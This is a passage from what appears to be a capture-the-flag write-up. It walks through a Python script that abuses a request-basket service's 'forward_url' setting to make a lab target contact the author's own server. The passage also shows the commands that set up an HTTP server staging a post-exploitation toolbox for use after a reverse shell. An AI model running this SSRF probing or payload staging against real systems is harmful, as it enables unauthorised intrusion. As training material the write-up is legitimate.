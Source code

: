 ```python
    response = s.post(target_url, json=payload, timeout=2.50)
    print(f'[{response.status_code}] {response.text}')
    
def getTarget(resource):
    target_url = f'{args.target}/{args.basket}/{resource}'
    response = s.get(target_url, timeout=2.50)
    print(f'[{response.status_code}] {response.text}')
    
while True:
    try:
        resource = input("> ")
        postTarget(resource)
        getTarget(resource)
    except requests.exceptions.ReadTimeoutError as e:
        print(e)
    except KeyboardInterrupt as e:
        print("Exiting...")
        break
```

Unfortunately, this yielded no result.  I'll try parameterizing the `forward_url` and attempt to get it to contact my own box. On my attacker box, I created a python http webserver:

> Note: `~/Tools/STAGING` is a directory containing my "toolbox". Most importantly, it contains a simple `index.html` file. I  usually download this directory's contents the target box after obtaining a reverse shell. For more details, please see my [User Enumeration - Linux](/strategy/user-enumeration-linux) strategy.

```
sudo ufw allow from 10.10.11.224 to any port 8000 proto tcp
cp -r ~/Tools/STAGING www && cd www
python3 -m http.server 8000
```

And modify the script's `postTarget()` function:

```python
...
parser.add_argument('target', help='The URL of the target, Ex. "http://10.10.11.224:55555")', type=str)
parser.add_argument('forward', help='Forward URL, Ex. "http://10.10.14.3:8000")', type=str)
parser.add_argument('basket', help='The ID of the basket to use (Ex. "geto2km")', type=str)

args = parser.parse_args()

s = requests.session()

def postTarget():
    target_url = f'{args.target}/api/baskets/{args.basket}'
    payload = {
        "forward_url": args.forward,
        "insecure_tls": False,
        "proxy_response": False,
        "expand_path": True,
        "capacity": 250
    }
    response = s.post(target_url, json=payload, timeout=2.50)
...
```
